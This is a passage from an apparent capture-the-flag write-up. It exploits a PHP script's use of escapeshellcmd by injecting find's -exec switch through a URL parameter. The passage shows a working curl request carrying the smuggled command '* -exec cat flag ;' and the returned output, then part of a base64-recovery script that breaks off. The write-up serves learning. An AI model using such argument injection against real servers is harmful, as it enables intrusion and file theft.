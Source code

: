 The vulnerability was pretty easy to spot: the script uses `escapeshellcmd` whereas it should be using `escapeshellarg`. While I couldn't directly execute other programs, I could pass other switches and arguments to `find`. Having used this program a lot, I already knew it had an `-exec` switch. Here's the manpage in case you don't know what it does already:

{% highlight bash %}
       -exec command ;
              Execute command; true if 0 status is returned.  All following arguments to find are taken to be arguments to the command until an argument consisting of `;' is encountered.  The string
              `{}' is replaced by the current file name being processed everywhere it occurs in the arguments to the command, not just in arguments where it is alone, as in some  versions  of  find.
              Both  of these constructions might need to be escaped (with a `\') or quoted to protect them from expansion by the shell.  See the EXAMPLES section for examples of the use of the -exec
              option.  The specified command is run once for each matched file.  The command is executed in the starting directory.   There are unavoidable security problems surrounding use  of  the
              -exec action; you should use the -execdir option instead.
{% endhighlight %}

Basically, passing `*%20-exec%20cat%20flag%20;` (urldecoded: `* -exec cat flag ;`) to `arg` will output the flag a few times:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/the-code$ curl "http://35.242.239.180:30233/?start=1&arg=*%20-exec%20cat%20flag%20;"
Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9
{% endhighlight %}

The problem, however, was that the output is encoded to base64 and then passed to `strtoupper`. I made the following script that attempts to decode the uppercase base64 string:

{% highlight python %}
import base64
import sys
import string

def lower(enc_st, i):
	return enc_st[:i] + enc_st[i].lower() + enc_st[i + 1:]

def score(s, posmax):
	score = 0
	alphabet = string.printable[:-2].encode()
	dec = base64.b64decode(s)
	if dec[0] not in alphabet:
		return -1
	while score < (posmax * 6 // 8 + 6) and dec[score] in alphabet:
		score += 1
	return  score - 1


def tryToLower(enc_st, pos):
	encs = []
	scores = []
	for i in range(256):
		enc = enc_st
		b = bin(i)[2:]
		if len(b) < 8:
			b = "0" * (8 - len(b)) + b
		for offset, shouldLower in enumerate(b):
			if shouldLower == "1":
				enc = lower(enc, pos + offset)
		encs.append(enc)
		scores.append(score(enc, pos))
	max = -1
	posmax = -1
	for i, s in enumerate(scores):
		if s > max:
			max = s
